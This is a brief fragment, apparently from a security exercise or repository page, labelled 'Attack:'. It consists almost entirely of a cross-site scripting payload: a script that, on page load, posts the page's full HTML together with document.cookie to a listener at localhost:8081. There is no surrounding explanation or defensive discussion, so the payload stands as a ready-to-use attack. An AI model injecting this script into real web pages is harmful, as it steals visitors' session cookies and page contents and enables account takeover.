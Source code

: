 Attack:

<script>
window.addEventListener('load', function () {
  fetch("http://localhost:8081", {
    method: "POST",
    body: JSON.stringify(document.body.outerHTML) + document.cookie
});
})
</script>